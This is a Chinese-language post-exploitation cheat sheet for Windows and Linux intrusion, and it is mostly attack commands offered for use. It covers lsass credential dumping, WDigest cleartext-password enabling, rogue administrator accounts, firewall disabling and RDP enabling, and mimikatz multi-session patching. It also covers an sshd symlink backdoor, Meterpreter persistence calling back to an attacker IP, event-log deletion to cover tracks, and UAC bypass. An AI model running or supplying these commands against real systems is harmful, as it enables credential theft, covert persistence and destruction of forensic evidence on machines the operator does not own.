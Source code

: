 # 信息收集

- 出网端口扫描.输出到文件。
- [后渗透之 windows 中无文件落地执行方法](https://mp.weixin.qq.com/s/-rN-rsnYRSKuJr5BkaRnBg)
- dump 密码
  - 任务管理器转储
  - procdump64.exe -accepteula -ma lsass.exe lsass.dmp

```sh
arp -a
ipconfig /all
dir /a C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Recent
dir /a C:\Users\Administrator\Desktop
dir /a C:\Users\public\Desktop
reg query HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU
reg query HKEY_USERS\S-1-5-21-3921407625-4142045542-3089788233-500\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU
reg query HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\TypedPaths
reg export "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" Winlogon.reg
dir D:\ /s | findstr /i ora >c:\tmp.txt # 查找ora文件
dir /s /b *admin*                       # 查找admin相关文件.
shell net user defaultuser1 123 /add && net localgroup administrators defaultuser1 /add
# 查询数据库连接IP记录 见 30_mssql_sqlserver.md

netstat -lantp | grep ESTABLISHED # 关注sshd进程，即运维人员公司IP

reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f # 管理员登录可读明文
```

- [查询数据库连接 IP 记录](./30_mssql_sqlserver.md#查询日志访问-ip数据库)

## web 路径

```
C:\tomcat\webapps\xxxx\WEB-INF\web.xml
```

## windows

```shell
## 提权
JuicyPotato
SweetPotato
echo 其他漏洞见 z02
## 横向
meter> upload /root/fscan64.exe # 1.ipconfig 查看网段, # 2.arp -a # 2.1 route print # 3. fscan扫描 横向移动
meterpreter > run post/windows/manage/enable_rdp # 开 rdp
meterpreter > run getgui -e                      # 开启远程桌面
meterpreter > run getgui -u xiaowei -p 123456    # 创建用户
### [『红蓝对抗』RDP 多开小技巧 | 远程桌面](https://mp.weixin.qq.com/s/ji7YpWe1OyyhSlDOYydzWw)
# 远程桌面 要求的函数不受支持
# reg add HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\CredSSP\Parameters /t reg_dword /v AllowEncryptionOracle /d 2
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1                              # 开启3389远程桌面
netsh advfirewall set allprofiles state off
netsh advfirewall firewall set rule group="Remote Desktop" new enable=yes                                 # M2: 放行3389
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow # M1: 放行3389

# 远程桌面 rdp
proxychains rdesktop 192.168.52.141  # 可以改过期密码
proxychains rdesktop 172.22.4.45 -u 'WIN19\Adrian' -p babygirl2 -r disk:home=/home/kali/vmware/test/rw
rdesktop -u yourname -p password -g 1024x720 192.168.0.2
rdesktop -r disk:tmp=/home/user/Desktop <remote ip address> # 映射文件夹
remmina # 可配代理 见 90_tools.md
freerdp
xfreerdp


net config Workstation # (当前计算机名，全名，用户名，系统版本，工作站域，登陆域)
net localgroup administrators
net view # 查看局域网内所有计算机
使用CS扩展的Ladon插件探测内网存活主机情况
Ladon 192.168.52.0/24 OnlinePC
net view /domain 查看域情况
CS和msf联动

# 内网主机信息收集
## * everything文件搜索（正则表达式提高效率）
## * 浏览器保存的密码/微信/QQ文件夹/回收站/共享盘/邮件软件/协同软件
## * 远程软件保存的远程连接 mstsc/内网通/向日葵/todesk等

```

### 多用户登录远程桌面

[RDP 连接多开方法与利用思路](https://mp.weixin.qq.com/s/GCFCIwqnQUAFNED0dTVDoA)

```bash
net user admin 123456 /add
net localgroup administrators admin /add
net localgroup "Remote Desktop Users" admin /add 2>nul

# 1. 不同用户同时登录
mimikatz.exe privilege::Debug ts::multirdp exit
# 2. 同用户同时登录 RDPWrap, 好像不好使
install.bat
rdpconf.exe  # 取消 Single Session
## 2.1 win10+win11 http://github.com/anhkgg/SuperRDP
```

## linux

[Linux 内网渗透基础篇](https://mp.weixin.qq.com/s/MV4bTIW7YKiBgS6r03_FFw)

```shell
get_info_01_linux.sh
meterpreter > getSystem "whoami"

uname -a    # 获取所有版本信息
uname -m    # 获取Linux内核架构
cat /proc/version    # 获取内核信息
cat /etc/*-release   # 发布信息
cat /etc/issue    # 发布信息
hostname    # 获取主机名
cat /etc/passwd    # 列出系统所有用户
cat /etc/group    # 列出系统所有组
w    # 查看目前登录的用户
whoami    # 查看当前用户
id    # 查看当前用户信息
sudo -l    # 列出目前用户可执行与无法执行的指令
ps aux    # 查看进程信息
ls -la /etc/cron*    # 查看计划任务
ls -la /tmp
ifconfig -a    # 列出网络接口信息
cat /etc/network/interfaces    # 列出网络接口信息
arp -a    # 查看系统arp表
route    # 打印路由信息
netstat -anplt    # 打印本地端口开放信息
iptables -L    # 列出iptable的配置规则
```

wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:“KBxxxxxx”

## 权限维持

ssh 软连接后门 需 root 执行后门命令，任意密码登录

```shell
ln -sf /usr/sbin/sshd /usr/local/su;/usr/local/su -oport=12345
```

- [msf](https://mp.weixin.qq.com/s/Ch73sZqK54HVlJQEhbBb6g)

msf 维持 1 run persistence

```bash
run persistence –h #查看帮助
run persistence -U -i 5 -p 1234 -r 192.168.47.128
#-U指定启动的方式为用户登录时，-i反向连接的时间间隔(5s) –r 指定攻击者的ip
```

msf 维持 2 metsvc

```bash
run metsvc –h # 查看帮助
run metsvc –A #自动安装后门
```

## 日志清除

```ps1
$a=Get-WmiObject -Class win32_service -Filter "name = 'eventlog'"
taskkill /F /PID $a.ProcessId
del %SystemRoot%\System32\winevt\Logs\*
net start EventLog
```

# 04 自动信息收集

Host Information Gathering Script：HIGS.bat
https://github.com/myh0st/scripts/blob/master/Windows%E4%B8%8B%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86/HIGS.bat
privilege-escalation-awesome-scripts：winPEAS.bat
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASbat/winPEAS.bat

# 提权工具脚本

https://blog.csdn.net/weixin_43873557/article/details/113760973

快速查找 exp

systeminfo>micropoor.txt&(for %i in ( KB2160329 KB2503665 KB2592799 KB2707511 KB2829361 KB2850851 KB3000061 KB3045171 KB3077657 KB3079904 KB3134228 KB3143141 KB3141780 ) do @type micropoor.txt|@find /i "%i"|| @echo %i you can fuck)&del /f /q /a micropoor.txt

https://github.com/SecWiki/windows-kernel-exploits
https://github.com/WindowsExploits/Exploits

## ssh 相关

1.密钥篡改 authorized_keys 2.重装覆盖 openssh-backdoor https://github.com/Psmths/openssh-backdoor

### bypassuac

1. msf

```bash
search bypassuac
use exploit/windows/local/bypassuac
options
set session 1
run -j
getuid
getsystem
```

2. CVE 编号:CVE-2019-1388,windwos 证书对话框特权提升漏洞。补丁号 KB4524235 KB4525233

# Article

[后渗透之 windows 中无文件落地执行方法](https://mp.weixin.qq.com/s/GqgFDi8hJ3NcN8c98yIXuw)
[后渗透之 windows 中远程下载文件 tips](https://mp.weixin.qq.com/s/Ax0CaErM3F6VCctTB2KaHA)
